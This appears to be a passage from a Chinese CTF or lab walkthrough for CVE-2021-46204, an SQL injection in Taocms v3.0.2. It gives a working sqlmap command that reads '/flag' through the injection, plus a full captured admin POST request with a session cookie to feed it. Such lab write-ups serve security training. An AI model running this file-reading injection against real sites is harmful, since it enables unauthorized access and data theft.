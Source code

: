 ```
Connection: close

name=%E6%97%A5%E8%AE%B0&nickname=1&fid=&cattpl=&listtpl=&distpl=&intro=%E6%97%A5%E8%AE%B0%E6%9C%AC&orders=0&status=1&action=category&id=2&ctrl=update&Submit=%E6%8F%90%E4%BA%A4
```

```
sqlmap -r 1.txt  --file-read "/flag" --batch
```

![image-20230714113159137](%E9%9D%B6%E5%9C%BA.assets/image-20230714113159137.png)

## CVE-2021-46204 Taocms v3.0.2 sql注入漏洞

*靶标介绍：*

Taocms v3.0.2 taocmsincludeModelArticle.php 存在sql注入漏洞

https://github.com/taogogo/taocms/issues/14 需要自己抓包

```
sqlmap -r 1.txt  --file-read "/flag" --batch
```



```
POST /admin/admin.php HTTP/1.1
Host: eci-2zed7jrc3f6mskccya39.cloudeci1.ichunqiu.com
Content-Length: 168
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2zed7jrc3f6mskccya39.cloudeci1.ichunqiu.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eci-2zed7jrc3f6mskccya39.cloudeci1.ichunqiu.com/admin/admin.php?action=link&id=2&ctrl=edit
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=f6jkvvo6ntk2ah4k5mq78f2rar
Connection: close

name=taoCMS&urls=http%3A%2F%2Fwww.taocms.org&content=taoCMS%E5%AE%98%E6%96%B9%E7%BD%91%E7%AB%99&orders=0&status=1&action=link&id=2&ctrl=update&Submit=%E6%8F%90%E4%BA%A4
```
